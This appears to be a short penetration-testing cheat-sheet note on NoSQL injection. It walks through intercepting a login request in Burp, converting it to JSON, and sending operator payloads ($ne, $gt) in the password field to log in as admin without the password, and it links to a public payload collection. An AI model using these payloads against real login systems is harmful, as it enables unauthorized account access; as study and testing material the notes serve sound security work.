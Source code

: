 # NoSQL Injection

## Example

> Example using a login form for Admin Access with username and password

* Intercept the login request with a basic username and password.
* If the Content-Type and data are not in JSON form it will have to be converted:
  * Manually, changing Content-Type to `application/json`
  * Burp Extension 'Content Type Converter'
    * Then right click in the request, select Content Type Converter, and select JSON
* May still need to modify the data to use JSON format, ex:
  * Before: `username=admin@admin.com&password=password&redirectPage=`
  * After: `{"username": "admin@admin.com", "password": "password"}`
* Send the request to get some response
* Example payloads below:

```bash
# Grab user where username is admin@admin.com and the password that is not equal to blank
{"username": "admin@admin.com", "password": {"$ne":""}}
# and the password that has a value greater than an empty string
{"username": "admin@admin.com", "password": {"$gt":""}}
```

## Payloads

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)

